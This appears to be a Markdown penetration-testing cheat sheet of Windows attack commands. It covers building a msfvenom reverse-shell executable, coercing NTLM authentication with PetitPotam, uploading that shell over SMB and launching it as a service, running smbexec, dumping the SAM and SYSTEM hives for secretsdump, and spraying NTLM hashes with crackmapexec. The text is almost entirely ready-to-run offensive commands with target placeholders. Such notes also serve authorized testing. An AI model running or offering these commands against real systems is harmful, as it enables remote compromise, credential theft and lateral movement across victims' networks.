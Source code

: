 # Windows

### Binary reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=<IP> LPORT=33334 > reverse.exe
```

### PetimPotam

Coerce NTLM Auth
```bash
python3 PetitPotam.py -u USER -d DOMAIN -p="PASS" localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA IP
```

### Escape SMB Pseudoshell

1. You have socks samba proxy.
2. Generate the reverse shell
3. Upload
```
proxychains smbclient.py <IP>
# Select share and writable dir
$ put reverse.txt
```
4. Run via services.py
```
proxychains services.py <TARGET> -no-pass create -name revsvc -display "revsvc" -path "C:\reverse.exe"
proxychains services.py <TARGET> -no-pass start -name revsvc
```
Or use smbexec if it works
```
 proxychains smbexec.py <TARGET> -share ADMIN$ -shell-type powershell
```

### Manual SAM dump

```
reg save HKLM\SYSTEM C:\Temp\SYSTEM
reg save HKLM\SAM C:\Temp\SAM

# download via smbclient
secretsdump.py -sam ./SAM -system ./SYSTEM LOCAL
```

### NTLM Hash spray

```
crackmapexec smb sambas.txt  -u wadmin -H aad3b435b51404eeaad3b435b51404ee:<HASH> | grep -a '[+]'
```
